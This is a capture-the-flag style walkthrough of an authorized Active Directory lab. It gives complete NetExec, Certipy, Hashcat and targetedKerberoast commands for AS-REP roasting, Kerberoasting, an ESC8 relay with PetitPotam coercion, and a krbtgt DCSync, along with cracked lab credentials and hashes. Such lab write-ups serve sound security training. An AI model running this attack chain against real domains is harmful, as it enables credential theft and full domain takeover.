In this walkthrough, we will be compromising ShadowGate, an easy-difficulty Active Directory lab from Hack Smarter Labs. The engagement begins with no credentials and only VPN access to the internal network. The domain controller accepts an anonymous SMB session and hands over the full user list, setting up an AS-REP Roast against `jtrueblood`. BloodHound shows `jtrueblood` holds `GenericWrite` over `bbrown`, and a Targeted Kerberoast through that edge recovers `bbrown`'s password. Certipy enumeration as `bbrown` finds an ESC8 misconfiguration, so we coerce the domain controller with PetitPotam and relay its authentication to the web enrollment endpoint for a certificate as `DC01$`. That certificate gets us the machine account NT hash over PKINIT, and an NTDS dump extracts the `krbtgt` hash for full domain compromise.


Created by: [Ross](https://www.hacksmarter.org/courses/e7586073-d447-41db-8f8e-6bd22576556d)

Let's get started.

## Objective

**ShadowGate** recently completed a corporate acquisition that significantly expanded its internal network, user base, and application footprint. Several business-critical systems were migrated and consolidated under tight operational deadlines to minimize downtime and maintain service continuity.

While functional validation was completed, the organization deferred a comprehensive security assessment due to delivery pressure and staffing constraints. Leadership has since requested an independent penetration test to validate the security posture of the newly created environment and identify any material risk before the next audit cycle.

The assessment will evaluate whether a motivated attacker with standard network access could compromise sensitive systems, escalate privileges, or move laterally within the enterprise environment.

The Hack Smarter team has been authorized to perform a black box internal penetration test against the ShadowGate environment.

The client has provided you with VPN access to their internal network, but no credentials.

## Scope

**Target:** `10.0.30.253`

## Open Ports

The machine details tab provides the open ports, so we skip port scanning for now. The LDAP banner confirms the domain as `shadow.gate`. Add `shadow.gate` to `/etc/hosts` before continuing.

```
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-15 13:41:20Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
```

Standard domain controller ports across the board. DNS on 53, HTTP on 80, Kerberos on 88, LDAP on 389/636, SMB on 445, RDP on 3389, and WinRM on 5985. With no credentials we start where the [AD mindmap](https://orange-cyberdefense.github.io/ocd-mindmaps/) does, at anonymous and guest access.

## SMB Enumeration

We check for anonymous SMB access and enumerate users with NetExec.

```
nxc smb 10.0.30.253 -u '' -p '' --users
```

```
SMB         10.0.30.253    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:None)
SMB         10.0.30.253    445    DC01             [+] shadow.gate\: 
SMB         10.0.30.253    445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.0.30.253    445    DC01             Administrator                 2026-01-11 11:33:05 0       Built-in account for administering the computer/domain 
SMB         10.0.30.253    445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.0.30.253    445    DC01             krbtgt                        2026-01-12 02:45:27 0       Key Distribution Center Service Account 
SMB         10.0.30.253    445    DC01             ATHENA                        2026-03-04 15:23:19 0        
SMB         10.0.30.253    445    DC01             mbrownlee                     2026-03-04 15:24:05 0        
SMB         10.0.30.253    445    DC01             bbrown                        2026-01-15 14:24:07 0        
SMB         10.0.30.253    445    DC01             jtrueblood                    2026-04-28 18:14:47 0        
SMB         10.0.30.253    445    DC01             jsmith                        2026-03-04 15:26:29 0        
SMB         10.0.30.253    445    DC01             clocke                        2026-03-04 15:24:32 0        
SMB         10.0.30.253    445    DC01             tclarke                       2026-03-04 15:25:33 0        
SMB         10.0.30.253    445    DC01             jbradford                     2026-03-04 15:24:59 0        
SMB         10.0.30.253    445    DC01             amoss                         2026-03-04 15:25:52 0        
SMB         10.0.30.253    445    DC01             [*] Enumerated 12 local users: SHADOW
```



*Anonymous SMB authentication with 12 domain users enumerated*

Anonymous authentication is permitted and SAMR hands us all 12 accounts. The output confirms the hostname as `DC01`, so we add `DC01.shadow.gate` to `/etc/hosts` and save the usernames to a `usernames.txt` file.

```
Administrator
Guest
krbtgt
ATHENA
mbrownlee
bbrown
jtrueblood
jsmith
clocke
tclarke
jbradford
amoss
```

## Access as jtrueblood

With a user list and no credentials, AS-REP Roasting is the next move. Kerberos normally requires pre-authentication before the KDC returns anything, but an account with pre-authentication disabled gets an AS-REP handed to anyone who asks. Part of that response is encrypted with a key derived from the account's password, and that is the part we crack offline.

```
nxc ldap 10.0.30.253 -u usernames.txt -p '' --asreproast output.txt
```

```
LDAP        10.0.30.253    389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:shadow.gate) (signing:None) (channel binding:Never) 
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
LDAP        10.0.30.253    389    DC01             $krb5asrep$23$jtrueblood@SHADOW.GATE:afa6ae0248b99c72b9c270c0deadce54$afc895c76e64b3897710b71498c8563a14754b9328f28e32bd456ff99c36bae9ba48f8d64c135562bb7b365ebd3add780d982fd1815aa457812f36bd1621b6de0eef03abb47725bedeee92b497c5f545ba8f678fab626990bf298d648bfe9d86b9d0295d656410665a707294ec190571be48514ebde16280b20a67055f83a648b0f84c31400a16379454d1e7a0d811a320a5489e0f9878f028470cf56921299a1bc765726e28fb619bcbef346ef5c1897583f4b8242570a92b4f0e9fdce20c251b0f3bcf3083cc6e7b17180249bdee11f72c65cd3c67a3eba20636769489db7c38509228e064530c8bbb
```



*AS-REP Roast: jtrueblood hash captured via NetExec*

One hash comes back. The two `KDC_ERR_CLIENT_REVOKED` lines are accounts the KDC refuses outright, not failed roasts. We save the hash to `jtrueblood_hash.txt` and crack it with Hashcat, which reads the mode off the hash prefix. `$krb5asrep$` is mode 18200.

```
hashcat jtrueblood_hash.txt /usr/share/wordlists/rockyou.txt
```

```
$krb5asrep$23$jtrueblood@SHADOW.GATE:afa6ae0248b99c72b9c270c0deadce54$afc895c76e64b3897710b71498c8563a14754b9328f28e32bd456ff99c36bae9ba48f8d64c135562bb7b365ebd3add780d982fd1815aa457812f36bd1621b6de0eef03abb47725bedeee92b497c5f545ba8f678fab626990bf298d648bfe9d86b9d0295d656410665a707294ec190571be48514ebde16280b20a67055f83a648b0f84c31400a16379454d1e7a0d811a320a5489e0f9878f028470cf56921299a1bc765726e28fb619bcbef346ef5c1897583f4b8242570a92b4f0e9fdce20c251b0f3bcf3083cc6e7b17180249bdee11f72c65cd3c67a3eba20636769489db7c38509228e064530c8bbb:blood_brothers
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$jtrueblood@SHADOW.GATE:afa6ae0248b99c...0c8bbb
Time.Started.....: Thu Jun 11 16:35:57 2026 (4 secs)
Time.Estimated...: Thu Jun 11 16:36:01 2026 (0 secs)
```



*AS-REP Roast and Hashcat crack for jtrueblood*

Cracked. We have `jtrueblood:blood_brothers` and verify against SMB.

```
nxc smb 10.0.30.253 -u 'jtrueblood' -p 'blood_brothers' --shares
```

```
SMB         10.0.30.253    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:None)
SMB         10.0.30.253    445    DC01             [+] shadow.gate\jtrueblood:blood_brothers 
SMB         10.0.30.253    445    DC01             [*] Enumerated shares
SMB         10.0.30.253    445    DC01             Share           Permissions     Remark
SMB         10.0.30.253    445    DC01             -----           -----------     ------
SMB         10.0.30.253    445    DC01             ADMIN$                          Remote Admin
SMB         10.0.30.253    445    DC01             C$                              Default share
SMB         10.0.30.253    445    DC01             CertEnroll      READ            Active Directory Certificate Services share
SMB         10.0.30.253    445    DC01             IPC$            READ            Remote IPC
SMB         10.0.30.253    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.30.253    445    DC01             SYSVOL          READ            Logon server share 
```



*Validating jtrueblood credentials with NetExec*

Credentials confirmed. A `CertEnroll` share shows up, which tells us AD CS is deployed here.

## BloodHound Enumeration

One valid credential is enough to read the directory, so we look at what `jtrueblood` can reach. We point NetExec at the DC for DNS with `--dns-server` so the collector can resolve the domain records it asks for.

```
nxc ldap 10.0.30.253 -u 'jtrueblood' -p 'blood_brothers' --bloodhound --collection All --dns-server 10.0.30.253
```

We import the data and review outbound object control for `jtrueblood`. The account holds `GenericWrite` over `bbrown`.



*BloodHound GenericWrite: jtrueblood over bbrown*

`bbrown` is also a member of the `ADCS-READERS` group.



*BloodHound showing bbrown membership in ADCS-READERS*

## Access as bbrown

`GenericWrite` does not allow a password reset, but it does let us write attributes, including a Service Principal Name. That is what a Targeted Kerberoast needs. [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast) sets the SPN, requests the TGS, and removes the SPN after.

```
./targetedKerberoast.py -v -d 'shadow.gate' -u 'jtrueblood' -p 'blood_brothers'
```

```
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (bbrown)
[+] Printing hash for (bbrown)
$krb5tgs$23$*bbrown$SHADOW.GATE$shadow.gate/bbrown*$16e9f43770ea4f6e3d1c9d37213c9fb3$e40993873f615f2a35effc17339aa525fc1f82e78ca26a21e9066e5cf328897bfcb17815e786887a1d66b4875394a7fe03e38181447e6e14186a89c9abc2627837dfab3b148a781bb1605c9df6891ffaa774ec35e2a26cc67787c4e388a14da15e0c1c496709fc971d6c130d5e67d5d5a6ff61d58ffcc3cd9c92013e705351dfa20e5aff1546e44a3eaa1d8f7b1370587037599e15aeb58c6dd7de3c82a85cc97f2ca337bbcd58cb922c91af35a6303dd69cc6af90a24e3ad6a6941111d6e992de28654d3dca5278ad8cd003243c6ed0bfc08c7b08db06874df215e25a7eb3722bdf6468e037cde0f05b7653c6d8903784fb4ea4f6f6a299e5fd9b39437badb07c40417f12bd66ff940d39ae86fe5d3a03e542a8fdcd1ae2fe4e7d19932f4269d0b9b9ec25629852dbc82685a5effd09ed0c593e5dcbd9376c16b902f0b16ee34442d15eb8daf244236cc66636cd22806529d6990b5b34932442117c983dd3f5b489fd0f05d3e48edec8d94bd4805947b55931d3555557fad39d90dc8fc53319267d5b30edb12e4939ab375278e11cba1822628f3e668fff22bbe2c9f3da035f61a4fb0eb339277da13cf5e09a7ee60e3509370ef967b05be05e6f224f540e268a55e59ea73a58025bec3d404ac8fc575a843e9799658a1bc500c6c35535038a628a342fc2c4be0653c1cc5122b57f1f03d19a196a4fbbc01fe60b95211dfa9e21df48d7207539bff68f47b2c96226fed623df1a13abc9cf6ac57c2e99352060217198897b6acd89cc5c6305937bd623889b718a7dded5bfd428205390d18ced7eff4c1a2e2ac4c25a6421317b257e9b8a7f57c9ea84604cc926268eebf60b1c57007529e6b53ceb2c2e6f9e8a96e7609dd48e2a94c2e6e366e6921f9395243e465dbc6f938a3fe2d3842165b4dba136ef237461841c0a7896b9650184af08dfed2e9909d3212b047af140ac92d8116a9090b01683335ad1f467c3ed0f195f0222f1e989be95eebc0f12e417c28bd5d5d0542ae5d551683453a202d6d24fa08bb1ffbe4f4fd000f14cb23c75560ed8e23768218524247097d632337a103dc8237c08428d5f7006b1df671d51cefa7363a63746f7295eb052c4b3a10d84352fa578ff431475b09161492ecab9c64bd22cd52f173ec16f9e1dcd6d97eaebe9553be8f903bc152a029e6bd1158795f10ddf99d20cf6fb0202f1d27ed45d1a018c8a789c434bbe54e9faafd2c1bd2d37cb3d9ef437f148bbf180db2d882760b1d1400da3e95382d025d8181971548d4f2b026aa722fdcd42df477907c62546d0312c5017f44dc2326ce8a248daee7bdfee8f4f15713b85c4dd7fb6a55b368a1f62ae9d0d9490849036586e5f32b0a8cd4cfe3034355ec135f3a6fd0c0a6dfbb8831355a8a5f61a03a6449a5350f62522cb487eb3d0884cc7dc4cc75d1c39d185e592e4653306d916aae44a5cc3bde6757d5b34691de8df8cd1c52dab6a279f0d5bc703d7c500994a0c1ede5ab56c1595efb6e59b51e23aff
[VERBOSE] SPN removed successfully for (bbrown)
```



*Targeted Kerberoast: SPN set and TGS hash captured for bbrown*

We save the hash to `bbrown_hash.txt` and crack it with Hashcat. The `$krb5tgs$` prefix puts this one at mode 13100.

```
hashcat bbrown_hash.txt /usr/share/wordlists/rockyou.txt
```

```
$krb5tgs$23$*bbrown$SHADOW.GATE$shadow.gate/bbrown*$16e9f43770ea4f6e3d1c9d37213c9fb3$e40993873f615f2a35effc17339aa525fc1f82e78ca26a21e9066e5cf328897bfcb17815e786887a1d66b4875394a7fe03e38181447e6e14186a89c9abc2627837dfab3b148a781bb1605c9df6891ffaa774ec35e2a26cc67787c4e388a14da15e0c1c496709fc971d6c130d5e67d5d5a6ff61d58ffcc3cd9c92013e705351dfa20e5aff1546e44a3eaa1d8f7b1370587037599e15aeb58c6dd7de3c82a85cc97f2ca337bbcd58cb922c91af35a6303dd69cc6af90a24e3ad6a6941111d6e992de28654d3dca5278ad8cd003243c6ed0bfc08c7b08db06874df215e25a7eb3722bdf6468e037cde0f05b7653c6d8903784fb4ea4f6f6a299e5fd9b39437badb07c40417f12bd66ff940d39ae86fe5d3a03e542a8fdcd1ae2fe4e7d19932f4269d0b9b9ec25629852dbc82685a5effd09ed0c593e5dcbd9376c16b902f0b16ee34442d15eb8daf244236cc66636cd22806529d6990b5b34932442117c983dd3f5b489fd0f05d3e48edec8d94bd4805947b55931d3555557fad39d90dc8fc53319267d5b30edb12e4939ab375278e11cba1822628f3e668fff22bbe2c9f3da035f61a4fb0eb339277da13cf5e09a7ee60e3509370ef967b05be05e6f224f540e268a55e59ea73a58025bec3d404ac8fc575a843e9799658a1bc500c6c35535038a628a342fc2c4be0653c1cc5122b57f1f03d19a196a4fbbc01fe60b95211dfa9e21df48d7207539bff68f47b2c96226fed623df1a13abc9cf6ac57c2e99352060217198897b6acd89cc5c6305937bd623889b718a7dded5bfd428205390d18ced7eff4c1a2e2ac4c25a6421317b257e9b8a7f57c9ea84604cc926268eebf60b1c57007529e6b53ceb2c2e6f9e8a96e7609dd48e2a94c2e6e366e6921f9395243e465dbc6f938a3fe2d3842165b4dba136ef237461841c0a7896b9650184af08dfed2e9909d3212b047af140ac92d8116a9090b01683335ad1f467c3ed0f195f0222f1e989be95eebc0f12e417c28bd5d5d0542ae5d551683453a202d6d24fa08bb1ffbe4f4fd000f14cb23c75560ed8e23768218524247097d632337a103dc8237c08428d5f7006b1df671d51cefa7363a63746f7295eb052c4b3a10d84352fa578ff431475b09161492ecab9c64bd22cd52f173ec16f9e1dcd6d97eaebe9553be8f903bc152a029e6bd1158795f10ddf99d20cf6fb0202f1d27ed45d1a018c8a789c434bbe54e9faafd2c1bd2d37cb3d9ef437f148bbf180db2d882760b1d1400da3e95382d025d8181971548d4f2b026aa722fdcd42df477907c62546d0312c5017f44dc2326ce8a248daee7bdfee8f4f15713b85c4dd7fb6a55b368a1f62ae9d0d9490849036586e5f32b0a8cd4cfe3034355ec135f3a6fd0c0a6dfbb8831355a8a5f61a03a6449a5350f62522cb487eb3d0884cc7dc4cc75d1c39d185e592e4653306d916aae44a5cc3bde6757d5b34691de8df8cd1c52dab6a279f0d5bc703d7c500994a0c1ede5ab56c1595efb6e59b51e23aff:12345678
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*bbrown$SHADOW.GATE$shadow.gate/bbrown*...e23aff
Time.Started.....: Thu Jun 11 17:11:31 2026 (0 secs)
Time.Estimated...: Thu Jun 11 17:11:31 2026 (0 secs)
```



*Hashcat crack for bbrown: password recovered from TGS-REP hash*

Cracked instantly. We have `bbrown:12345678` and verify.

```
nxc smb 10.0.30.253 -u 'bbrown' -p '12345678' --shares
```

```
SMB         10.0.30.253    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:None)
SMB         10.0.30.253    445    DC01             [+] shadow.gate\bbrown:12345678 
SMB         10.0.30.253    445    DC01             [*] Enumerated shares
SMB         10.0.30.253    445    DC01             Share           Permissions     Remark
SMB         10.0.30.253    445    DC01             -----           -----------     ------
SMB         10.0.30.253    445    DC01             ADMIN$                          Remote Admin
SMB         10.0.30.253    445    DC01             C$                              Default share
SMB         10.0.30.253    445    DC01             CertEnroll      READ            Active Directory Certificate Services share
SMB         10.0.30.253    445    DC01             IPC$            READ            Remote IPC
SMB         10.0.30.253    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.30.253    445    DC01             SYSVOL          READ            Logon server share 
```



*Validating bbrown credentials with NetExec*

Credentials confirmed, with no new shares. `bbrown` has no outbound object control in BloodHound, so the `ADCS-READERS` membership is the lead.

## Certipy Enumeration

The `ADCS-READERS` membership is our cue to look at AD CS. Any authenticated account can enumerate the CA, so we run Certipy as `bbrown`.

```
certipy-ad find -u 'bbrown' -p '12345678' -dc-ip '10.0.30.253' -stdout -vulnerable
```

```
Certificate Authorities
  0
    CA Name                             : shadow-DC01-CA
    DNS Name                            : DC01.shadow.gate
    Certificate Subject                 : CN=shadow-DC01-CA, DC=shadow, DC=gate
    Certificate Serial Number           : 749A4BA2BEA3CFBC41ECDFAEE502E46C
    Certificate Validity Start          : 2026-01-12 02:50:31+00:00
    Certificate Validity End            : 2046-01-12 03:00:31+00:00
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SHADOW.GATE\Administrators
      Access Rights
        ManageCa                        : SHADOW.GATE\Administrators
                                          SHADOW.GATE\Domain Admins
                                          SHADOW.GATE\Enterprise Admins
        ManageCertificates              : SHADOW.GATE\Administrators
                                          SHADOW.GATE\Domain Admins
                                          SHADOW.GATE\Enterprise Admins
        Enroll                          : SHADOW.GATE\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP.
Certificate Templates                   : [!] Could not find any certificate templates
```



*Certipy ESC8: Web Enrollment enabled over HTTP on shadow-DC01-CA*

Certipy flags ESC8: web enrollment is enabled over HTTP with no HTTPS. The `-vulnerable` flag returns no templates, so we run it again without the flag.

```
certipy-ad find -u 'bbrown' -p '12345678' -dc-ip '10.0.30.253' -stdout
```

```
    Template Name                       : DomainController
    Display Name                        : Domain Controller
    Certificate Authorities             : shadow-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDirectoryGuid
                                          SubjectAltRequireDns
                                          SubjectRequireDnsAsCn
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollment
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2026-01-12T03:00:32+00:00
    Template Last Modified              : 2026-01-15T01:57:45+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SHADOW.GATE\Enterprise Read-only Domain Controllers
                                          SHADOW.GATE\Domain Admins
                                          SHADOW.GATE\Domain Controllers
                                          SHADOW.GATE\Enterprise Admins
                                          SHADOW.GATE\Enterprise Domain Controllers
      Object Control Permissions
        Owner                           : SHADOW.GATE\Enterprise Admins
        Full Control Principals         : SHADOW.GATE\Domain Admins
                                          SHADOW.GATE\Enterprise Admins
        Write Owner Principals          : SHADOW.GATE\Domain Admins
                                          SHADOW.GATE\Enterprise Admins
        Write Dacl Principals           : SHADOW.GATE\Domain Admins
                                          SHADOW.GATE\Enterprise Admins
        Write Property Enroll           : SHADOW.GATE\Domain Admins
                                          SHADOW.GATE\Domain Controllers
                                          SHADOW.GATE\Enterprise Admins
                                          SHADOW.GATE\Enterprise Domain Controllers
```



*DomainController template with enrollment rights for Domain Controllers*

The `DomainController` template is enabled and published on `shadow-DC01-CA`, with enrollment rights for Domain Controllers.

## Access as DC01$

[ESC8](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation) is an AD CS misconfiguration where the HTTP certificate enrollment endpoint accepts NTLM without channel binding. We coerce the DC into authenticating to us and relay that authentication straight through to the endpoint, which issues a certificate on the DC's behalf. It works on a combined DC/CA because the relay is cross-protocol, SMB to HTTP. The weakness is in how web enrollment handles authentication, not in any template.

The relayed identity is `DC01$`, so we need a template Domain Controllers can enroll in. `DomainController` fits: client authentication EKU, no manager approval, no authorized signatures.

```
certipy-ad relay -target 'http://10.0.30.253' -template 'DomainController' -subject 'CN=DC01$'
```

```
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Targeting http://10.0.30.253/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
[*] Setting up SMB Server on port 445
```

With the relay running, we use NetExec's `coerce_plus` module to trigger PetitPotam, which abuses MS-EFSRPC to make `DC01` authenticate to our machine.

```
nxc smb 10.0.30.253 -u 'bbrown' -p '12345678' -M coerce_plus -o LISTENER=10.200.58.13 METHOD=PetitPotam
```

```
SMB         10.0.30.253    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:None)
SMB         10.0.30.253    445    DC01             [+] shadow.gate\bbrown:12345678 
COERCE_PLUS 10.0.30.253    445    DC01             VULNERABLE, PetitPotam
COERCE_PLUS 10.0.30.253    445    DC01             Exploit Success, efsrpc\EfsRpcAddUsersToFile
```

Back in the relay window the authentication lands and a certificate is issued.

```
[*] (SMB): Received connection from 10.0.30.253, attacking target http://10.0.30.253
[*] HTTP Request: GET http://10.0.30.253/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] HTTP Request: GET http://10.0.30.253/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] HTTP Request: GET http://10.0.30.253/certsrv/certfnsh.asp "HTTP/1.1 200 OK"
[*] (SMB): Authenticating connection from /@10.0.30.253 against http://10.0.30.253 SUCCEED [1]
[*] Requesting certificate for '\\' based on the template 'DomainController'
[*] http:///@10.0.30.253 [1] -> HTTP Request: POST http://10.0.30.253/certsrv/certfnsh.asp "HTTP/1.1 200 OK"
[*] Certificate issued with request ID 3
[*] Retrieving certificate for request ID: 3
[*] (SMB): Received connection from 10.0.30.253, attacking target http://10.0.30.253
[*] http:///@10.0.30.253 [1] -> HTTP Request: GET http://10.0.30.253/certsrv/certnew.cer?ReqID=3 "HTTP/1.1 200 OK"
[*] Got certificate with subject: CN=DC01.shadow.gate
[*] Got certificate with DNS Host Name 'DC01.shadow.gate'
[*] Certificate object SID is 'S-1-5-21-243493930-1113464705-3012771586-1000'
[*] Saving certificate and private key to 'dc01.pfx'
[*] Wrote certificate and private key to 'dc01.pfx'
[*] Exiting...
```



*ESC8 relay: certificate issued for DC01$*

With the PFX we authenticate over PKINIT, the Kerberos extension that lets a certificate stand in for a password, and pull the NT hash.

```
certipy-ad auth -pfx dc01.pfx -dc-ip 10.0.30.253
```

```
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'DC01.shadow.gate'
[*]     Security Extension SID: 'S-1-5-21-243493930-1113464705-3012771586-1000'
[*] Using principal: 'dc01$@shadow.gate'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'dc01.ccache'
[*] Wrote credential cache to 'dc01.ccache'
[*] Trying to retrieve NT hash for 'dc01$'
[*] Got hash for 'dc01$@shadow.gate': aad3b435b51404eeaad3b435b51404ee:a29353e7dcd23e7f5e33d9a1dcfeaf45
```



*Certipy PKINIT: TGT and NT hash for DC01$*

Certipy gets that hash by requesting a Kerberos ticket to itself and reading the credential blob out of the ticket's PAC. NTLM authenticates with the hash itself, so there is nothing left to crack.

## NTDS Dump

`krbtgt`'s key encrypts every TGT the domain issues, so its hash lets us forge a ticket for any account. NetExec never touches NTDS.dit directly. It asks the DC to replicate the account we name, the same way domain controllers sync with each other, which is why a domain controller machine account is all we need. `--user KRBTGT` scopes what prints, not what gets read.

```
nxc smb 10.0.30.253 -u 'DC01$' -H 'aad3b435b51404eeaad3b435b51404ee:a29353e7dcd23e7f5e33d9a1dcfeaf45' --ntds --user KRBTGT
```

```
SMB         10.0.30.253    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:None)
SMB         10.0.30.253    445    DC01             [+] shadow.gate\DC01$:a29353e7dcd23e7f5e33d9a1dcfeaf45 
SMB         10.0.30.253    445    DC01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         10.0.30.253    445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.0.30.253    445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b5509cbfe52e94940c0ec99b21e09802:::
SMB         10.0.30.253    445    DC01             [+] Dumped 1 NTDS hashes to /home/kali/.nxc/logs/ntds/DC01_10.0.30.253_2026-06-11_180932.ntds of which 1 were added to the database
SMB         10.0.30.253    445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.0.30.253    445    DC01             [*] grep -iv disabled /home/kali/.nxc/logs/ntds/DC01_10.0.30.253_2026-06-11_180932.ntds | cut -d ':' -f1
```



*NTDS dump: krbtgt hash recovered*

The access denied line is expected. NetExec first tries remote registry for the boot key, and `DC01$` is not an administrator on its own domain controller, but the replication path does not need it. We recover the `krbtgt` NT hash `b5509cbfe52e94940c0ec99b21e09802` and the domain is compromised.

## Final Thoughts

The relay was the part I had to slow down on. Pointing a coerced authentication back at the host it came from feels wrong until you look at which protocols are on each end, and Certipy's built-in relay handled it in one window instead of standing up impacket-ntlmrelayx alongside it. The rest of the chain moved fast, mostly because that first anonymous session removed any guessing about who to attack.

Null sessions are the finding I would lead a report with, since a domain controller answering unauthenticated SAMR queries is what made everything downstream possible. Pre-authentication belongs on every account, and object-level rights like `GenericWrite` need auditing on a schedule rather than at build time. On the CA, HTTP enrollment should be off and HTTPS with channel binding required. SMB signing is not the control here, since the receiving end of this relay was never SMB.

— 0xB1rd
